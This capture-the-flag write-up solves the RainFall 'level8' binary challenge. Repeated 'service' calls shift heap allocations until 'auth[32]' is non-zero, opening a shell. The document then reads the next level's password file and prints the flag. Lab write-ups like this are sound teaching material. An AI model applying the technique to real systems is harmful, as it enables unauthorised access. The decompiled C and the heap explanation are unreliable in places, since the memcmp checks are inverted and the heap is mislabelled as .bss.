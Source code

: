 # Solution

Here is the binary reverse C code

```c
char    *auth = NULL;
char    *service = NULL;

int main(void) 
{
    char    buffer[128];
    while (1)
    {
        printf("%p, %p \n", (void *)auth, (void *)service);
        if (fgets(buffer, 128, stdin) == 0)
            break;

        if (memcmp(buffer, "auth ", 5))
        {
            auth = malloc(4);
            auth[0] = 0;
            if (strlen(buffer + 5) <= 30)
                strcpy(auth, buffer + 5);
        }
        if (memcmp(buffer, "reset", 5))
            free(auth);
        if (memcmp(buffer, "service", 6))
            service = strdup(buffer + 7);
        if (memcmp(buffer, "login", 5))
        {
            if (auth[32])
                system("/bin/sh");
            else
                fwrite("Password:\n", 10, 1, stdout);
        }
    }
    return (0);
}
```

Here the objectif will be to access to the call of `system("/bin/sh")` that is only accessible if `auth[32]` is not NULL.

So how can we do that if we take a close look to the other function use we see that we have a `fgets` call,
but this will not allow us to overflow also `auth` is in the .bss (is a global variable) meaning that we cannot,
overflow on this value unless we find a overflow on the .bss.

That's where `service` is really handy because `service` is in the .bss so, we need to overflow with `service` to hit,
`auth[32]` but if we pay attention to all the function that service is using is `strdup`, this will not allow us to overflow,
but since we are inside an infinite loop we can call multiple time the same value espacially we can call `strdup` which call `malloc`,
so we bascally can increase the size of the bss address of service which will allow us to hit `auth[32]` so it will have a value to pass the if statement.


```sh
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service
0x804a008, 0x804a018
service
0x804a008, 0x804a028
service
0x804a008, 0x804a038
login
$
```

So we have a shell but what happend, basically we increase the address of the bss by just calling multiple time the service option,  
we need to hit 32 byte higher before calling login option (first address is auth, second address is service) once we have 32 byte higher address,
the `auth[32]` is one set and has a positive value which will allow us to pass the if statement.


Here is the flag

```sh
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
